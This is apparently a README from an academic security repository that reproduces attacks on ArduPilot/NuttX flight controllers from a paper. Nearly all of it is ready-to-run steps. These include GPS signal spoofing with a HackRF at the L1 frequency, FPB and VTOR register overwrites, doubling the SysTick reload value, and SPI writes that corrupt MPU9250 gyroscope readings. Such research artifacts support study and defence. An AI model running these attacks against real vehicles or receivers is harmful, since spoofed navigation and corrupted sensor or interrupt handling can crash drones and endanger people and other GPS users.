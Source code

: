 # Attack cases mentioned in the paper
Code for conducting attacks mentioned in the paper. We have 2 zero-day attacks which have been reported to respective authorities as well. 

## GPS Spoofing
### Prerequisite
1) You need to have a software-defined radio like <a href="https://greatscottgadgets.com/hackrf/one/" target="_blank">HackRF One</a> which could simulate GPS L1 signal. 
2) Install HackRF package
```bash
sudo apt-get update -y
sudo apt-get install -y hackrf
```

3) Install <a href="https://github.com/osqzss/gps-sdr-sim" target="_blank"> GPS position simulator</a>


### How to execute it?
1) You need to specify the GPS satellite constellation through a GPS broadcast ephemeris file. The daily GPS broadcast ephemeris file (brdc) is a merge of the individual site navigation files into one. The archive for the daily file is:ftp://cddis.gsfc.nasa.gov/gnss/data/daily/

2) Find the latest brdc file for navigation data creation

3) When you use <a href="https://github.com/purseclab/M2MON/tree/main/attacks/GPS_spoofing" target="_blank"> brdc3540.14n</a> as an ephemeris file, you can generate GPS messages by using the command in the below. 
```bash
./gps-sdr-sim -b 8 -e brdc3540.14n -l 31.286502,121.032669,100
```

4) gpssim.bin will be created and the file needs to transferred

5) Spoof the GPS messages 
```bash
hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 0
```

## FPB (Flash Patch and Breakpoint Unit) attack
### Prerequisite
1) Your main system-on-Chip must be equipped with a FPB unit. We used <a href="https://www.st.com/en/microcontrollers-microprocessors/stm32f427-437.html" target="_blank">STM32F427</a>.

2) RTOS can execute shell commands (e.g., mw and mh).

### How to execute it?
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```
2) Activate the FPB unit and execute a new command
```bash
mw 0xE0002004=0x20000000 1
mh 0x20000014=0xe7fe 1
mw 0xE0002000=0x1 1
mw 0xE000201C=0x0807efb9 1
```

## Timer attack
### Prerequisite
1) You need to know a value of the SysTick register (STK_LOAD). You can probably find such a register address on datasheet or source code of the RTOS (NuttX).

### How to conduct the timer attack?
1) Insert the code snippet in the below to a control loop (e.g., Copter::one_hz_loop() in ArduPilot)
```bash
// 0xE000E014: STK_LOAD’s register address
volatile unsigned int *Timer_attack = (volatile unsigned int *) 0xE000E014;

// Increasing the value to 2X of the original value (0x2903F) set by the RTOS
*Timer_attack = 335998;
```

2) You can confirm the effect of the timer attack after booting.
<img src="https://github.com/purseclab/M2MON/blob/main/attacks/timer_attack/result.png">

## IRQ override attack
### Prerequisite
1) You need to know a value of the vector table offset register (VTOR). You can probably find such a register address on datasheet or source code of the RTOS (NuttX).

### How to conduct the IRQ attack?
1) Insert the code snippet in the below to a control loop (e.g., Copter::one_hz_loop() in ArduPilot)
```bash
// 0xE000ED08: VTOR’s register address
volatile unsigned int *VTOR_attack = (volatile unsigned int *) 0xE000ED08;
::printf("Original VTOR:0x%x\n", *VTOR_attack);

// Overriding VTOR
// 3758153728: 0xE000E000 in hex
*VTOR_attack = 3758153728;
::printf("Modified VTOR:0x%x\n", *VTOR_attack);
```

2) You can confirm the effect of the IRQ attack after booting.
<img src="https://github.com/purseclab/M2MON/blob/main/attacks/IRQ_attack/result.png">

## Gyroscope attack
### Prerequisite
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```

2) We used <a href="https://ardupilot.org/mavproxy/docs/modules/devop.html" target="_blank">Direct Comms with SPI/I2C bus</a> in ArduPilot.
You can learn how to use the Direct Comms with SPI/I2C bus from the documentation. You must know the following information to conduct this attack: 1) device name, 2) bus number, and 3) address.
We got such information from NuttX source code. For example, if you want to read data from SPI bus, you can execute a command in the below.

```bash
devop read spi (1)name (2)bus (3)address (4)regstart (5)count
(1) Where name= device name
(2) bus=spi bus #
(3) address=device address
(4) regstart=register to start at 
(5) count=number of bytes to write
```

### How to conduct the gyroscope attack?
1) Write data to a control register of the MPU9250 gyroscope sensor.

```bash
devop write spi mpu9250 1 4 26 1 11
```

2) You might see bad gyroscope sensor data.

## Barometer attack
### Prerequisite
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```

2) We used <a href="https://ardupilot.org/mavproxy/docs/modules/devop.html" target="_blank">Direct Comms with SPI/I2C bus</a> in ArduPilot.
You can learn how to use the Direct Comms with SPI/I2C bus from the documentation. You must know the following information to conduct this attack: 1) device name, 2) bus number, and 3) address.
We got such information from NuttX source code. For example, if you want to read data from SPI bus, you can execute a command in the below.

```bash
devop read spi (1)name (2)bus (3)address (4)regstart (5)count
(1) Where name= device name
(2) bus=spi bus #
(3) address=device address
(4) regstart=register to start at 
(5) count=number of bytes to write
```

### How to conduct the barometer attack?
1) Read data from registers of the MS5611 barometer sensor.

```bash
devop read spi ms5611_int 1 3 0 255
```

2) You might see bad barometer sensor data.

